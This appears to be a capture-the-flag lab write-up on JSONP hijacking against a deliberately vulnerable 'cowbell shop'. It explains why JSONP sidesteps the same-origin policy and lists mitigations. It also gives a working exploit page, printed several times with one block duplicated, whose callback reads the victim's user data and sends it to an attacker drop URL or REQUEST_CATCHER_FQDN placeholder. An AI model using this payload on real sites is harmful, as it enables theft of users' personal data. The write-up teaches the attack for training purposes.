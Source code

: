 # JSON Hijacking Attack with JSONP

## Challenge

This challenge is about JSON \(JSONP\) hijacking. By doing such an attack you should understand the theory.

## Answer

### Explain the security problem 

* **JSONP** = JavaScript Object Notation with **Padding**
* Technique used to circumvent the Same-Origin Policy when transferring data with AJAX across

  different domains

* Browsers do not enforce SOP on the HTML &lt;script&gt; tag
* Padding refers to characters around the JSON payload, e.g.
  * `callback({employees: [{“firstName”: “John”, “lastName”: “Doe”}, ...]})`



### Explain your attack. \(exploit, screenshot, hacking journal\) 

Step 1\) Use old cowbell shop, buy some bells

![](../../.gitbook/assets/image%20%28366%29.png)

Step 2\) Use Theia Web IDE and change the change\_me.html to the following:

{% code title="change\_me.html" %}
```markup
<html>
<head>
<script>
var target="https://41961063-5823-447b-86c0-42221f35dfe6.idocker.vuln.land/drop?";


function invoke(obj) {
var ref = obj;
   var inner = function() {
      var response = "";

      for(var x in ref ) {
         response += ref[x] + ", ";
      }

      new Image().src=target + escape(response);    
   };
   setTimeout(inner, 100);
}

</script>
<script src="https://glocken.vm.vuln.land/12001/json_case0/json0/controller?action=getuser&func=invoke">
</script>
</head>
<body>
</body>
</html>
<html>
<head>
<script>
var target="https://41961063-5823-447b-86c0-42221f35dfe6.idocker.vuln.land/drop?";


function invoke(obj) {
var ref = obj;
   var inner = function() {
      var response = "";

      for(var x in ref ) {
         response += ref[x] + ", ";
      }

      new Image().src=target + escape(response);    
   };
   setTimeout(inner, 100);
}

</script>
<script src="https://glocken.vm.vuln.land//12001/json_case0/json0/controller?action=getuser&func=invoke">
</script>
</head>
<body>
</body>
</html>

```
{% endcode %}



Step 3\) Send attacker URL to the victim

![](../../.gitbook/assets/image%20%28379%29.png)

Step 4\) 

![](../../.gitbook/assets/image%20%28373%29.png)

Step 5\) 

```markup
<html>
<head>
<script>
var target="https://REQUEST_CATCHER_FQDN/drop?";


function invoke(obj) {
var ref = obj;
   var inner = function() {
      var response = "";

      for(var x in ref ) {
         response += ref[x] + ", ";
      }

      new Image().src=target + escape(response);    
   };
   setTimeout(inner, 100);
}

</script>
<script src="{VULNERABLE COWBELL SHOP}/12001/json_case0/json0/controller?action=getuser&func=invoke">
</script>
</head>
<body>
</body>
</html>
```

The attacker is defining the `invoke` method before `script src` an URL from the cowbell shop. The json data returned by the cowbell shop are jsonp - json with padding. This makes the hacker happy - as he can now exfiltrate the json data via his own `invoke` implementation.

### Explain mitigation \(remedy\)

* Use Anti XSRF-Tokens
* Begin the JSON-Response with an infinite loop:
* DO NOT USE JSONP!




